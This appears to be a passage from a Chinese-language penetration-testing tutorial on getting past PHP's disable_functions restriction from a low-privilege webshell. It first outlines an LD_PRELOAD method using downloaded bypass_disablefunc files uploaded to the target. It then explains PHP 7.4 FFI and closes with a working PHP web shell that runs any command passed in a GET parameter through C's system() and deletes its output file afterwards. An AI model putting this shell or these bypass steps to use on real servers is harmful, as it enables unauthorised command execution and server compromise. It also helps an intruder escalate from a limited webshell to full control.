 ### 进阶版

在整个流程中,唯一担心的是sendmail没有安装怎么办,它可不是默认安装的,而拿到的webshell权限一般也不高,无法自行安装,也不能改php.ini。

而有前辈早已指出:无需sendmail：巧用LD_PRELOAD突破disable_functions细节已经说的非常明白,这里只复现,在此不再画蛇添足。

去github下载三个重要文件:
bypass_disablefunc.php,bypass_disablefunc_x64.so或bypass_disablefunc_x86.so,bypass_disablefunc.c
将 bypass_disablefunc.php 和
bypass_disablefunc_x64.so传到目标有权限的目录中。这里很有可能无法直接上传到web目录,解决办法就是上传到有权限的目录下,并用include去包含。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102318.png)

  

这里我已经卸载了sendmail文件

![]()

  

注意区分post和get

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102319.png)

## 利用PHP7.4 FFI绕过

FFI（Foreign Function
Interface），即外部函数接口，允许从用户区调用C代码。简单地说，就是一项让你在PHP里能够调用C代码的技术。当PHP所有的命令执行函数被禁用后，通过PHP
7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass
disable_functions。具体请参考Foreign Function Interface

当前php版本为7.4.3

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102320.png)

  

先看FFI是否开启,并且ffi.enable需要设置为true

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102321.png)

  

使用FFI::cdef创建一个新的FFI对象

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102322.png)

  

通过c语言的system去执行,绕过disable functions。将返回结果写入/tmp/SD，并在每次读出结果后用unlink()函数删除它。

    
    
    <?php  
    $cmd=$_GET['cmd'];  
    $ffi = FFI::cdef("int system(const char *command);");  
    $ffi->system("$cmd > /tmp/SD");       //由GET传参的任意代码执行  
    echo file_get_contents("/tmp/SD");  
    @unlink("/tmp/SD");  
    ?>  
    
